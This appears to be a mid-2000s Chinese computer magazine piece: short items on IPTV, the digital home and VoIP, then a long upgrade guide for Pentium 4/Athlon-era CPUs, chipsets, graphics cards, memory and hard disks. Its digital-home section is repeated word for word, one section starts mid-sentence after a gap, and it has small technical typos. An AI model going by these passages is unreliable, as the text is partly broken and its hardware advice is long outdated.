通俗地说，IPTV是一个能让大家在互联网上看电视的技术。目前，IPTV系统技术已陆续开始被世界各大电信运营商大规模采用和部署。通过这项技术，用户可以通过电视或者计算机收看电视节目，或者视频点播自己喜欢看的电影、电视，接受信息服务，进行通信和参与互动游戏等，其中视频点播以电影、电视剧为主，信息服务以社会、体育、财经、彩票为主，互动游戏以休闲类、益智类、对抗类游戏为主，远程教育以时尚、烹饪、职业教育为主。IPTV业务很大程度上颠覆了传统电视用户对电视娱乐的消费和使用习惯。IPTV与互联网模式不同，电信运营商是IPTV业务的门户，电视运营商是IPTV业务的资源源头。基于IPTV系统的电信行业与媒体行业的融合，必将产生一个新的融合性行业，一个巨大的网络电视产业即将诞生。

### 数字家庭

随着信息化的普及，家庭中的电脑、家电越来越多，随之而来的是信号线、遥控器、说明书漫天飞，这个需要控制，那个需要操作，现代化的同时也伴随着复杂化，使用者都快成技术专家了。由于每种电器都有独立的控制系统，因此彼此之间的联系几乎没有，人们迫切需要一种全新的方式来控制生活，享受生活，如何能够使各种家用电器之间能够协同工作，如何能够用最简单的方式使用它们，于是数字家庭的概念诞生了。这到底是个什么东西呢，说法有很多种，但带给人们的享受却是实实在在的，比如像盖茨所描述的那样“想看什么节目就看什么节目，想听什么广播就听什么广播，可以边看电影边做饭，边泡浴缸边打游戏”；房屋的照明随着人们的生活需要自动变明变暗；一个遥控器可以统一控制所有的设备；电视机、冰箱、微波炉、洗衣机、空调、灯光、电动窗帘，什么时候工作，怎么工作都能随心所欲地统筹安排；当你身处远方，家里的一切都可以随时掌控；不用再担心被盗和灾害，家里的摄像头、防盗报警器、自动烟雾探测器、有害气体检测装置可以自动报警并通过网络发送到你的手机、电子信箱或者公安局。总而言之，数字家庭的主要用途在于家庭影音娱乐、电信及广播业务、控制和监视功能方面。

### VoIP应用

VoIP又称IP电话或IP网络电话，是Voice over IP的缩写，是建立在Internet上的新型数字化传输技术，也就是通过互联网打电话，IP电话基本原理是通过语音压缩算法对语音信号进行压缩编码处理，然后把这些语音数据按TCP/IP标准进行打包，经过网络把数据包发送到接收地，接收端把这些语音数据包串起来，经过解码、解压缩处理后恢复成原来的语音信号，从而达到由互联网传送语音的目的。VoIP能给大家带来的显著好处就是大幅度降低了通话费用和很好地提供多媒体电话服务，你可以近乎免费地与远在美国的朋友通过VoIP看到对方的图像，随意传输文字和聊天。也许到那时，中国移动、中国电信等垄断企业也就将风光不再了。

### 数字家庭

随着信息化的普及，家庭中的电脑、家电越来越多，随之而来的是信号线、遥控器、说明书漫天飞，这个需要控制，那个需要操作，现代化的同时也伴随着复杂化，使用者都快成技术专家了。由于每种电器都有独立的控制系统，因此彼此之间的联系几乎没有，人们迫切需要一种全新的方式来控制生活，享受生活，如何能够使各种家用电器之间能够协同工作，如何能够用最简单的方式使用它们，于是数字家庭的概念诞生了。这到底是个什么东西呢，说法有很多种，但带给人们的享受却是实实在在的，比如像盖茨所描述的那样“想看什么节目就看什么节目，想听什么广播就听什么广播，可以边看电影边做饭，边泡浴缸边打游戏”；房屋的照明随着人们的生活需要自动变明变暗；一个遥控器可以统一控制所有的设备；电视机、冰箱、微波炉、洗衣机、空调、灯光、电动窗帘，什么时候工作，怎么工作都能随心所欲地统筹安排；当你身处远方，家里的一切都可以随时掌控；不用再担心被盗和灾害，家里的摄像头、防盗报警器、自动烟雾探测器、有害气体检测装置可以自动报警并通过网络发送到你的手机、电子信箱或者公安局。总而言之，数字家庭的主要用途在于家庭影音娱乐、电信及广播业务、控制和监视功能方面。

(新闻采访部)

或许我天生是一个比较多愁善感的人，总之每当说到秋天，我想到的第一个词语不是“收获的季节”，而是“多事之秋”。而选择在“多事之秋”来升级电脑，并不是因为电脑多事，只是我们自己比较多事而已。其实，升级本身是快乐的，在大约十年以前，我购买自己第一台电脑的时候，无论是CPU、主板还是内存硬盘，甚至连键盘和鼠标都没有太大的选择余地。但我仍然沉浸在那种绞尽脑汁却还难以取舍的思考快乐中。再看看现在，市场上琳琅满目的各种配件，每一个包装盒中都存放着我们的快乐，如阿拉丁神灯般等我们去逐一擦亮。性能？稳定性？扩展性？实用性？每一种选择即一种取舍。在十·一来临时，让我们用清醒的头脑和品味快乐的心态，共同去体会一个不一样的“多事之秋”，只因为，我们在秋天！

## 升级在秋天

### 核心篇

#### CPU升级策略

大多数人都认为：CPU的主频越高，性能也越好。但是，对于Intel的CPU而言，这种看法有时却行不通…… 想把Tualatin赛扬1.1GHz的升级到奔腾4，可钱不多，1.7GHz的赛扬4应该是不错的选择吧。不过，如果我告诉大家奔腾4 由于管线太长，工作效率不如奔腾3，而1.7GHz赛扬4的性能不如1.1GHz的Tualatin赛扬呢？类似的情况还有，比如把赛扬4 2.0GHz(Northwood核心)升到2.4GHz的赛扬D(Prescott核心)。要知道赛扬D的缓存虽大、FSB虽高，但无奈又是超长管线，所以您花数百元外加主板不支持的风险换来了不到4%的性能提升，也许用这些钱升级显卡和内存所带来的效果会更明显。所以，从性能而论，低档的老式赛扬升级成高端新赛扬，是不值得推荐的！实际上，正由于Intel CPU的架构多变，所以时不时会出现新不如旧的现象。总而言之，对于像主频在1GHz左右的Tualatin或Coppemine核心的CPU，如果您的升级目标达不到2GHz以上的奔腾4或AthlonXP 1700+等级的产品，那么还不如不升，超频让他们继续发挥余热就好了。如果您正在使用Socket478的奔腾4，而现在又想升级CPU的话，那么笔者建议您选择高频的Northwood CPU，最好不要考虑Prescott核心的CPU(在相同频率的情况下，Prescott比Northwood慢不少，而且前者更易与主板发生兼容性问题)。另外，升级CPU时应避免把奔腾4“升级”到同核心高频赛扬的情况(如把2.0GHz的Northwood奔腾4升级到同为Northwood核心的2.4GHz赛扬4)，这也是一个笑话。

#### 小贴士

- a. 安装新CPU前，请确保主板BIOS已刷至最新版本，并最好清一次CMOS(记得拔掉主机电源)。
- b. 假如您的主板上插有一根以上的内存条，建议在升级后的首次开机时只保留速度最快的一根内存条，并将其置于DIMM1上，待开机成功后再将余下的内存条插回主板。这是因为一些芯片组(特别是Intel的芯片组)在高FSB下只支持1~2根内存条，如果当时主板装有较多的内存条，那么可能会无法开机，从而造成主板不支持新CPU的假象。
- c. 如果您在更换主板和CPU后无法开机，请考虑电源的兼容性问题。
- d. 一些P4的主板需要靠跳线设置CPU类型，错误的设置会导致无法开机。

#### 我们该怎么做？

经常在硬件论坛上看到这样的提问：究竟XX主板能否支持某某CPU？其实，这样的问题不必寻求他人的解答，因为主板厂商早就给出了答案，他们都会提供一个“CPU支持列表”，您可以通过该表了解自己的主板是否能支持某种CPU。这里以微星 MS-6580 为例，如果想看看它能否支持Prescott的CPU，可以来到微星的繁体站点。您可能会觉得奇怪，微星明明有简体站点，为什么非要到繁体站点呢？这是因为我国台湾系主板厂商的繁体站点一般更新较快，资料也更详尽。到了微星的网站，从“技术服务”中找到了“CPU支持状态”(有的主板厂商的“CPU支持列表”会夹杂于相关主板的介绍中)。微星的网站做得比较好，可以直接以型号搜索。如果您的主板来自非零售渠道(如品牌机)，那么其型号可能不会出现在主板厂商的主页上，这时您只能通过联系相关厂商以获取所需资料了。

查找主板的BIOS或CPU支持列表时，您可能会发现这样一个现象，就是主板型号后面通常会带个 “V x.x”、“Ver:x.x” 或 “PCB Ver: x.x” 之类的提示，有点像软件的版本号。其实，这个号码就是主板的硬件版本，有时尽管两款主板型号一样，甚至长得一样，但由于版本不同，升级能力也会有巨大差别。因此，建议您留意这些不起眼的版本号，以免空欢喜。他们会印在主板上，一般会和主板的型号和厂牌等信息印在一起，也有些主板商会将其印在主板的边沿。另外，您也会在网页上碰到型号后没有标注版本号的情况，这表明此信息适用于该型号的所有版本。

需要注意的是，主板厂商提供的检测结果通常比较保守，有时会出现检测结果上说不支持某种CPU，但实际却可用的情况。因此，如果您对主板厂商检测结果不放心，那么您可以以“主板型号 + 目标CPU”作为关键词(如“MS-6580+Prescott”，前面不要带主板品牌)在搜索引擎碰碰运气(包括论坛的搜索引擎)。

#### 如何更换CPU？

传统的CPU安装大家比较熟悉，这次我们找个特别的CPU来安装，如Intel的LGA775接口的主板。

全新的CPU架构—LGA775很脆弱，如果操作不当，一不留神就可能导致主板Socket T插槽损坏报废。这里简单介绍一下LGA775处理器的安装方法：

1.  主板Socket T插槽由金属压盖、金属拉杆、金属底座以及弹性接触点组成。弹性接触点负责和处理器底部的金属接触点之间连接，依靠弹性接触点的金属弹性来和处理器底部保持紧密接触。Socket T插槽上覆盖有塑料保护盖，先掀起侧面的金属杆，打开上面的金属框，插槽完全展现出来，拿出处理器后，到这儿要多加注意了，手千万不要碰到主板Socket T插槽上的针脚和CPU底部的圆触点。
2.  将处理器上的凹槽和插槽对准，方向不要搞错，轻轻放在上面，现在可以把插槽的金属框扣下，金属杆扣下，就会大功告成。

其实只要多加小心，注意手千万不要碰到主板Socket T插槽上的针脚，和CPU底部的圆触点。一般是不会损坏主板或处理器的。

#### CPU散热风扇小心装

毋庸置疑，CPU的散热是最重要的，否则烧坏就得不偿失了。炎热的盛夏，如果CPU常莫名其妙地死机，不如换个大功率的风扇试试，也许会解决故障。仅仅是风扇，就不用动散热片，把风扇螺丝拧下来就很容易更换风扇了。

-   第一步：在CPU的核心上均匀涂上足够的散热膏。注意不要涂得太多，只要均匀地涂上薄薄一层就行。
-   第二步：将散热片妥善定位在支撑机构上，再将散热风扇安装在散热片的顶部向下压风扇直到它的四个卡子嵌入支撑机构对应的孔中。
-   第三步：将两个压杆压下以固定风扇，注意每个压杆都只能沿一个方向压下。
-   第四步：最后将CPU风扇的电源线接到主板上3针的CPU风扇电源接头上，否则风扇不工作的话不要见怪。

如果散热片安装不正确，也很有可能会对CPU造成损坏，例如扣具过松或过紧，着力点没有正对着CPU内核，都是隐患。

#### 安装时注意:

1.  大功率风扇的震动一般较大，如果扣具过松，会导致CPU内核被震动的散热片磨损，甚至报废。
2.  如果扣具过紧，安装时容易压坏CPU内核。
3.  如果着力点没有正对着CPU内核，就会导致散热片与CPU内核接触不良，甚至只接触到一边，从而导致导热不良，再好的CPU风扇也会中看不中用。

i845D:这是Intel第一款支持DDR内存的芯片组，但由于该芯片组最多只支持400MHz FSB，所以使用i845D芯片组的主板基本上没有CPU升级潜力。少数主板厂商通过电路优化让i845D也能支持800/533 MHz FSB的CPU，但这类845D主板大多只能上Northwood，极少数支持Prescott，而且在800MHz FSB大多只能支持一条内存，十分勉强。因此，如果您打算在这类主板上安装800MHz FSB CPU的话，建议还是更换主板吧。因为把旧的845D主板卖掉后，加一两百元就可以买块848P主板了，但后者显然能更好地发挥新CPU的潜力。除此以外，i845D对新内存、显卡和硬盘的支持较宽松。

升级建议: 内存、显卡或硬盘

i845E/845PE/Gx:不少人可能会把i845D和i845E/PE、845Gx搞混，毕竟他们的参数很相似。其实，i845E只是在i845D的基础上加入对533MHz FSB的支持，而i845PE又在i845E的基础上加入了DDR333的支持(但只支持两条内存条同时工作在DDR333)，845Gx则整合了性能相当于GeForce2 MX200的图形核心(注意i845GL只能支持400MHz FSB)。从实际使用经验来看，i845E/845PE/Gx的升级CPU能力并不比i845D好多少，同样是稳定支持Northwood，但上Prescott则比较“悬”。

升级建议: 内存、显卡或硬盘

693A/694X/PM133:这是三款曾经叱咤风云的芯片组，当年惹得Intel大棒相向。不过，时间是无情的，当年再先进的产品今日也会面临“尚能饭否”的窘境，693A首当其冲。这款芯片组可以支持PC-133的内存，但由于只支持AGP 2X，因此注定和大多数新显卡无缘(开机后会冒青烟T_T)，出局！694X则稍微好些，在693A的基础上支持AGP 4X，但需要注意的是694X分CD和CE两个版本，其中前者对AGP 4X的支持有如“摆设”，虽不会“冒青烟”，但也麻烦不断，小心为妙(请注意升级主板和显卡的BIOS，并考虑有可能发生的显卡退换问题)。PM133由于推出时间较晚，因此对AGP 4X的支持不错，和CE版本的694X相当。需要注意的是，这三款芯片组在大硬盘的支持上同样存在问题。

升级建议: 内存、显卡或容量小于137GB的硬盘

P4X266(A)/P4X266E/P4M266(A)/P4X400:这4款芯片组都是Intel高压时代的产物，但当时仍有不少主板厂商冒着被“咔嚓”的风险推出相关主板。从性能上说，这4款芯片组的性能不输于同类的Intel产品，但当时由于这4款芯片组走的都是中、低端定位，因此在升级能力上稍逊一筹，基于这4款芯片组的主板上Prescott的可能性不大，最多上上Northwood就算了，像P4X266和P4M266这类只支持400MHz FSB的芯片组可能连上Northwood的机会都没有。当然，后期同样有主板厂商通过改进让他们支持Prescott，但效果不太理想，而且早期版本P4X266/P4X266E/P4M266/P4X533可能还会影响“超线程”的性能发挥。

升级建议: CPU、内存、显卡或硬盘

KT133(A)/KM133:KT133(A)、KM133和694X属于同时期的产品，因此他们有很多相似之处——只能升级内存、显卡和容量小于137GB的硬盘。虽然KT133A和KM133都支持133MHz FSB，但实际上最多能跑Thunderbird和Palomino核心的AthlonXP，大多跑不了Thoroughbird核心的产品，这使得升级CPU变得毫无意义。

升级建议: 内存、显卡或容量小于137GB的硬盘

KT266(A)/KM266:KT266(A)/KM266是早期支持DDR内存的AMD平台芯片组，因此升级能力较KT133(A)/KM133好很多，基本都能上Thoroughbird核心的AthlonXP(早期具备DDR和SD-RAM双插槽的KT266主板则不一定支持)。

升级建议: CPU、内存、显卡或硬盘

730S:730S芯片组提供了一根AGP 4X插槽，但从实际情况来看，这根插槽的性能较弱，不利于升级。与同期的芯片组一样，730S也在大硬盘的支持方面存在问题。

升级建议: 整套换新

735:735曾是AMD平台的一代性价比之王。既然提到735，那么就不能不说ESCK7S5A。这款主板虽然发布较早，但由于众多高手的努力，K7S5A的升级潜力变得十分强大：只要您的K7S5A的PCB版本为3.1，就可以到网上http://www.ocworkbench.com/2002/ecs/k7s5aguide/下载一个BIOS。刷新后，您的K7S5A就可以支持Thoroughbird和Barton核心的AthlonXP了。

## 专题
## 电脑爱好者

645(DX)/648(FX)/655这5款芯片组应该还算比较主流的产品。其中，645支持400 MHz FSB，645DX和648支持533 MHz FSB，而648FX和655则支持800 MHz FSB。应该说这5款产品的升级潜力还不错，上Northwood不会有问题(645需小心)，而上Prescott的机会则比较渺茫(648FX除外)。

升级建议：CPU、内存、显卡或硬盘

nVIDIA nForce2 IGP/ nForce3：nForce2 IGP的升级问题主要集中在对200MHz FSB的支持上。众所周知，nForce2 IGP集成了性能较好的图形核心，这使得其发热量远高于nForce2系列的其他产品，有时上200MHz FSB的CPU时不太稳定。而nForce3可能会与E3版本的Athlon 64存在兼容性问题。

升级建议：加强芯片组的散热并且升级BIOS即可。

AMD 760：升级潜力和KT266(A)/KM266类似，但早期具备DDR和SDRAM双插槽的760主板同样要小心，因为它们不一定支持Thoroughbred核心的Athlon XP。

升级建议：CPU、内存、显卡或容量小于137GB的硬盘

## 性能引导价格

现在的主流显卡主要分500元~700元，700元~1300元，1300元~2000元几个价格段。500元~700元这个价位可以选择Radeon 9550，Radeon X550，GeForce 6200A，GeForce 6200TC。Radeon 9550可谓风光一时，凭借良好的核心设计与超频能力雄霸低端市场。现在ATi又推出了Radeon X550作为Radeon 9550在PCI-E平台的替代品。GeForce 6200A虽然只有64位显存，但性能并不比标准版的Radeon 9550差，而且它还将SM3.0带入了低端显卡市场（可以提供更真实漂亮的画面），值得选择。GeForce 6200TC由于要占用系统内存只推荐大内存用户使用。

700元~1300元左右的价位主要是NVIDIA的GeForce 6200、GeForce 6600LE、GeForce 6600、GeForce 6600GT和ATi的Radeon X700在竞争。其中GeForce 6200因只具备4条渲染流水线而限制了性能上的发挥，并且由于硬件屏蔽丧失了软改的能力，现在逐渐被支持SLI的GeForce 6600LE取代。GeForce 6600的优点在于完整的DirectX 9c支持和硬件视频加速，而Radeon X700的优势在于高于GeForce 6600的核心/显存频率。最近厂商的疯狂降价行为把6600GT也带到这个价位的市场对X700进行绞杀，使之成为这个价位的最佳选择。

1300元~2000元的范围内，NVIDIA和ATi又展开了激烈的厮杀，在这个价位内包括了GeForce 6800LE、GeForce 6800标准版、6800GT以及部分256MB显存容量的GeForce 6600GT。ATi方面则以1999元的双256配置X800为主力，X700PRO为辅，双256配置X800性价比相当高，但X700PRO实际出货又很少，所以难于购买。

## 要最新还是要最适合？

对各位玩家来说，升级到适合自己的显卡才是最重要的，这个适合并不只是适合你的价位，还要适合你现在用的主板。

对于众多的板载显卡又没有带AGP口的用户来说，升级显卡的选择很少，只有几款显卡可以选择，最多也只能选影驰基于NV44A核心的6200 PCI版，但是局限于PCI总线的速度，希望有多好的效果是不可能的，如果你真的想玩游戏最好还是换块主板实在。

对于现在还在用815、845等只支持AGP 4X的用户来说，GeForce Ti4200等TI系列显卡是个好的选择，不过现在市场上要找一块新的不太容易，二手是个不错的选择，还有就是用GeForce 5XXX系列和Radeon 9550，因为这些显卡同时支持4X和8X两个规格，不过性能还是比8X的时候稍差一些。

对于865、NF2以上支持8X的主板来说，选择余地就大了，可以按照自己的经济能力来选择不同价位的显卡，不过不需要选太好的，因为主板已经显得有点老迈了，性能并不能得到完全的发挥，和Radeon 9550和GeForce 6200A最为搭配。

如果你的平台支持PCI-E，那就恭喜你了，可以选择现在最具性价比的GeForce 6600GT，Radeon X800也是个不错的选择，当然并不是说其他的就不好，只是性价比不高而已。

还有就是因为现在显卡的耗电惊人，AGP 8X已经不能提供足够的电，厂商都在右上角设计了辅助电源接口，虽然这个接口不接电显卡也能顺利点亮，但进入系统后就会提示显卡供电不足，自动降低频率。如果你接了电，但在游戏的时候还是要提示供电不足，那你就该换一个大功率电源了。

## 我们该怎么做？

换显卡，驱动程序有讲究！

在你的新显卡买回来后，安装之前最好先卸载以前安装的驱动，ATi和nVIDIA的驱动是不能通用的，即使是同一个公司的芯片以前的驱动也并不适用于新的显卡，用旧驱动新的特性会体现不出来的，但是也不是最新的就最好，笔者曾经遇到过装了新的通过了WHQL驱动后极品飞车8不能运行的情况。一款适合的驱动，应该是在你所选的显卡芯片上市后半年左右推出的，这个时候的驱动已经差不多把硬件的性能完全发挥出来了，最好选择通过了WHQL的，在兼容性和稳定性都有一定的保证。还要注意更新你的主板AGP驱动以适应新显卡的需要。

驱动装好后就要进行驱动的设置了，设置好了才能把显卡的能力完全体现出来。

nVIDIA：nVIDIA的官方驱动设置有些复杂又没有足够地说明各选项的功能，而且为了避免误操作而隐藏了一些设置，比如超频等，所以我不太喜欢用官方的设置，我现在一般都在使用nVHardPageSE汉化版来设置，该软件在设置上更直观，当你用鼠标指向设置项的时候会有比较详细的说明。这里我们主要针对3D显示效果需要更改的进行说明，其他默认就可以了。首先是垂直同步，这里nVIDIA默认是开启的，一般建议关闭，不然将受到刷新率的限制，而降低性能。对于3D平滑处理也就是全屏抗锯齿，是对画面的优化，就要更要用你的显卡来设置了，GeForce 5XXX系列以上可以根据实际需要开2X或以下，以下的还是不要开的好，开了严重影响速度。各向异性过滤相对于全屏抗锯齿来说，开启各向异性过滤对游戏的性能影响则没那么大，拥有中档显卡的用户大可以打开这项设置，不过效果也没有全屏抗锯齿那么明显，一般来说可以选择自动，也就是由应用程序控制。三线过滤同上，不过效果要比各向异性过滤看来明显一些。nVHardPageSE里面还有很有用的设置，控制面板设置里面可以解锁被官方屏蔽的选项，如超频，AGP设置，Direct3D的刷新率页等。而分辨率设置里可以固定在某分辨率下的刷新率，官方的那个只针对Direct3D，而这个对OpenGL也能支持。

ATi：在设置前，我们首先要确定是对Direct3D还是OpenGL进行设定，对谁进行设定就要在“3D设置”下点选相应的选项。接着我们看3D选项卡上方的性能滑杆，它可拖动，共有高性能、性能、均衡、质量、优化质量5个级别。而且在拖动性能滑杆时，在选项卡中央会有这一级别的具体设置介绍，包括抗锯齿、分辨率、各向异性过滤、纹理、垂直同步等几乎所有的可设置的3D选项，对于初级用户的调整极为方便。一般来说不论Direct3D还是OpenGL游戏，Radeon 9200及其以下显卡都应该选择均衡或性能这两个级别，Radeon 9500及其以上显卡可以使用均衡或质量这两个级别，只有Radeon 9800PRO或Radeon 9800XT我们才推荐在条件允许时尝试一下优化质量这个级别的快感，毕竟此时已经4倍抗锯齿、16倍各向异性过滤了。

## 主板设置对显卡性能的影响也很大

## 开启694X的AGP 4X功能

前面说过某些版本的694X对AGP 4X的支持能力不佳。VIA为此发布了一个小补丁（downloads.viaarena.com/drivers/others/viaagp4xon.zip）。在安装这个补丁前，笔者建议您先安装最新的VIA 4-in-1驱动程序，并升级主板BIOS。

## 一些关于显卡升级的BIOS项目

Fast Write

位置：Advanced Chipset Setup

作用：可以让显卡的性能提升5%左右，但如果主板对此支持不佳，可能会导致玩游戏时无故跳出或系统崩溃等问题。您可以通过BIOS或PowerStrip（更改时候记得将先把Read-Only前的勾剔除）关闭或开启它。

AGP Aperture

位置：Advanced Chipset Setup

作用：这个选项调节显卡的占用显存分配量，一般不要改动，但您如果发现玩游戏死机，可以尝试将该值调大。

AGP Rate

位置：Advanced Chipset Setup

作用：这个选项用于调节AGP速率，通常所说AGP 4X和AGP 8X后的数字就是速率。当您的显卡出现不稳定时，您可以将AGP速率降低，如果仍不能解决问题才关闭Fast Write（AGP Rate同样可以用PowerStrip调节）。

显示卡设置方面，不是会有一些小工具出现，或者是一些著名工具的新版本也能给我们带来不小的帮助。所以可以经常关注一下驱动之家网站（http://www.mydrivers.com），在“显示优化程序下载”栏目中说不定就有惊喜。

## 内存篇

## 多大的内存才合适？

对大多数人来说，增加内存容量是升级时必不可缺项目，但究竟该加多大的内存呢？

要解答这个问题只能从应用和硬件下手。假如您还在使用SD-RAM内存，那么笔者建议您尽量选择256MB一条的内存条，因为储存密度过大的SD-RAM内存条很容易与老主板不兼容。另外，假如您的电脑已经有了512MB的内存，那么再升就没意义了。毕竟512MB的内存已经够用，而且仍在用SD-RAM的电脑不会再有下次升级机会了，现在添得越多，以后升级就赔得越多。

对于使用DDR的电脑：如果您估计半年后要大换血，那么内存同样是升到512MB就够了。但是，如果您打算让现在的电脑再贡献1~2年，那么内存还是尽量升大点吧（1GB），因为到明年的这个时候，DDR就会像现在的SD-RAM一样奇货可居。

## 内存升级策略

SD-RAM：应该说现在仍有不少电脑用着SD-RAM。与大容量硬盘一样，目前升级SD-RAM内存时遇到的最大问题仍是容量限制，最典型的案例就是256MB的SD-RAM开机“变身”128MB。这种问题的发生与芯片组不支持大容量内存颗粒有关，和BIOS无关，也就是讲您无法通过升级BIOS来解决此问题。那么，什么样的芯片组不支持大容量内存颗粒呢？这里有个分界线——VIA 693A和Intel 810（不包括后期的810E），它们之后的芯片组就不会对内存颗粒有限制。如果您的主板正使用那些对内存颗粒有限制的主板，那么您在升级内存时就只能选择使用16MB颗粒的产品了（如使用16颗内存颗粒的256MB内存条，那么每个颗粒的容量就是16MB）。补充一下，Intel 815和845S芯片组对内存条比较挑，所以笔者建议您尽量避免在基于这两种芯片组的主板中安装2条以上的双Bank内存条，否则容易死机。

另外，上述方法同样适用于笔记本电脑的升级。

便许多，但问题仍然不少。“为什么我装了DDR 400内存条，但实际上却工作在DDR 333呢？”

这种现象大多出现在Intel的芯片组上，因Intel对内存异步似乎比较“反感”，他们规定只有使用200MHz FSB时，内存才能工作在DDR400模式。400MHz FSB：DDR266；533MHz FSB：DDR333；800MHz FSB：DDR400。

当然，有的基于Intel芯片组的主板也提供了内存异步功能，但这种功能一般无法在非超频状态下开启。这时您可以将CPU小超一点（记得AGP/PCI锁频），激活内存异步，从而让内存工作在DDR 400下。

## 小贴士 如何计算Bank数量？

Bank数量是内存条的重要参数之一。以往人们总认为双面条是双Bank，单面条是单Bank，这种看法并不正确。

我们知道单条内存条的位宽是64位（定值）。假设一条256MB的内存条有16颗芯片，那么单颗芯片的位宽就是4位。这时用单颗芯片的位宽×颗粒数量，即4×16，如果得数为64则是单Bank内存条，得128则是双Bank内存条。很明显，拥有16颗内存芯片的256MB内存条为单Bank条，但它却是我们平时所说的“双面条”。

## 双通道的问题

双通道也是一个难缠的家伙，很多人都发现在添加内存条后，双通道死活都不出来……865PE和nForce2是两款典型的双通道芯片组，这里拿它们说事吧！

实现双通道主要有几个要素：一是相同容量的内存条，二是相同品牌和规格的内存条。一般第一条在升级时比较容易做到，但第二条就有些麻烦了，毕竟从购机到升级中间都有一个时间跨度。为此，我们测试了一些nForce2和865PE主板，发现nForce2比较宽松，只要同容量和同规格（速度和颗粒数量）的内存条就可组双通道，对内存条和内存颗粒的品牌倒没什么要求（用华邦颗粒的内存条除外），只要不是杂牌就可以了。865PE就比较麻烦了，基本上只有同容量、同品牌和同规格的内存条才能组双通道。当然，有时您也可以试试运气，在BIOS中手动设置内存参数，强迫主板打开双通道，但此时那些五花八门的“PAT”又可能会自动关闭，真是鱼和熊掌不可兼得……也有芯片组厂商的双通道技术做得比较到家，如SiS，基本上任意两条内存就可组双通道。

与nForce2和865PE的双通道相比，Athlon 64集成的内存控制器则比较差。目前的Socket 939主板都有两组双通道内存插槽（共4根），但实际上其中只有一组能正常支持双通道。另一组只要插上内存条，双通道很可能会立刻关闭，不管您插的是同品牌的内存条，还是同规格的内存条，甚至是与原有内存条一模一样的内存条，通通不行。这还是在Venice核心的Athlon 64上测得的结果，如果换成Winchester，双通道会让内存条立刻降频到DDR333，更别说另一组内存条了。当然，笔者不排除这是主板在其中作梗，但Athlon 64对双通道内存兼容性确实较差，这点在升级时必须留意。

## 我们该怎么做？

## 如何确定双通道已开启

方法1：目前的主板都具备双通道检测功能，当双通道开启后，开机画面会有相应提示

方法2：CPU-Z也提供了双通道检测功能。当双通道开启后，您可以在“内存”选项卡中看到提示

## 内存的升级经验

- 尽量用单Bank的内存条进行升级，比较保险。
- 慎选512MB的SD-RAM。
- 假如您新加的内存条比原有的内存条快，请记得先将BIOS中的内存参数按最慢的那根内存设置。待开机成功后，再逐渐调快。
- 如果遇到电脑无法检测到新插入的内存条，请在BIOS找找“Auto Detect PCI/DIMM Clock”之类的选项。如果没有这样的选项，清一下BIOS。

## 硬盘篇

## 双硬盘，立新不废旧

随着BT等应用的兴起，加装一块大硬盘已成为不少电脑玩家的选择。同时，升级时淘汰的旧硬盘也能以“第二硬盘”的形式继续发挥余热。那么，如何安装双硬盘才能使他们的性能最大化呢？

要安装双硬盘，则首先要有安装新设备的空间。这点对于组装机不会有什么问题，但品牌机就不一定了，因为很多小型品牌机的机箱根本没有第二个硬盘位，要装新硬盘还得换机箱。另一个值得注意的问题就是电源功率，如果您用的电源的功率没有300W（品牌机的电源可放宽到250W，奔腾3级别品牌机的电源可放宽到200W），那么最好别考虑双硬盘。

为了能发挥出新硬盘的速度优势，您在安装时应尽量把它与老设备分开，如新硬盘单独接在IDE1或SATA口上，而老硬盘和光驱则接在IDE2上。又或者新硬盘和光驱接在IDE1上（新硬盘做主盘，光驱做从盘），而老硬盘则单独在IDE2上做主盘。总而言之，笔者建议您不要将新、老硬盘接在一起（如果您发现电脑中的刻录机经常刻坏盘，那么也可以考虑将其单独接在另一个IDE口上）。

另外，一些具备特殊BIOS的主板（如品牌机）可能会要求您使用Cable Select的方式连接硬盘。这种连接方式不同于传统的连接方式，因为该方式不依靠跳线设置决定硬盘和光驱的主/从关系，而是通过硬盘和光驱在数据线上的位置自动设定两者的主/从方式。如果您发现某个电脑在升级硬盘或光驱后无法安装操作系统，那么请考虑使用Cable Select方式连接硬盘和光驱，具体连接方式请参照说明书。当然，Cable Select也是一种不错的连接方式，如果您正被硬盘和光驱的主/从设置困扰，那么也可以考虑Cable Select：

- 将光驱和硬盘均设置成Cable Select
- 由于硬盘是传统意义上的“主”设备，因此您要将其连接到数据线的“短口”，而通常作为“从”设备的光驱则连接在“长口”。如果某根数据线上只有一个IDE设备，那么请将其连接至“短口”上。

## 小贴士

由于目前的BIOS都有比较完善的硬盘的设置，我们可以在“设备管理”中，找到新添的硬盘或光驱，双击打开，再点“设置”，在其中的“DMA”选项上打个钩，再按提示重启就行了。

注意：为了便于用户升级，一些SATA硬盘会同时提供传统的D型电源接口和新型的SATA硬盘专用电源接口，切勿将两者都连上电源，以免烧毁硬盘！另外，您在购买SATA硬盘时还需考虑新硬盘的电源接口与电源的匹配问题，因为老电源不会提供SATA硬盘的专用接口，这时您可以考虑花几元钱买一个转接线。

## 正确开启NCQ

NCQ是近来硬盘界炒得很响的技术，它可以轻松提升硬盘的性能。但俗话说“好事多磨”，开启NCQ同样需要您“折腾”一番……

如欲打开NCQ，您的主板和硬盘都必须支持该功能，缺一不可。不过，有些硬盘虽然支持NCQ，但却默认关闭（如日立7K80），您还要通过硬盘厂商提供的软件开启该功能。解决硬盘的问题后，接下来就到主板了。您首先要到主板BIOS中关于硬盘设置的部分（如Integrated Peripherals），然后找到SATA Mode，接着把选项改成ACHI。保存，退出，您就可享受NCQ带来的快感了。当然，装完操作系统后，千万别忘记安装相应的驱动程序。

## 芯片组的SATA模式 ICH5

Compatible Mode：此模式将SATA硬盘端口映射到并口IDE通道的相应端口，兼容性好，通常适用于DOS/Win98/WinME/NT/Linux和Ghost系统。

Enhanced Mode：此模式则让SATA硬盘使用独立的，不与原PATA设备冲突，但仅适用于Win2000/XP/2003系统。

VT8237 VT8237的SATA设置比ICH5简单。假如您想在VT8237上安装SATA硬盘，那么只需在BIOS中设置SATA is Pri IDE就可以了。不过，在VT8237上安装SATA硬盘前，笔者建议您最好先升级BIOS，并且安装最新的Hyperion 4-IN-1和RAID驱动程序，同时谨慎在VT8237上混用SATA和PATA硬盘。

## SiS 96x

SiS的SATA硬盘模式比较特殊，因为它的SATA功能其实是通过集成SiS 180实现的（相当于外接的SATA控制器），因此使用起来非常简单，不需考虑“映射”问题，但在安装操作系统时需要加载RAID驱动程序。

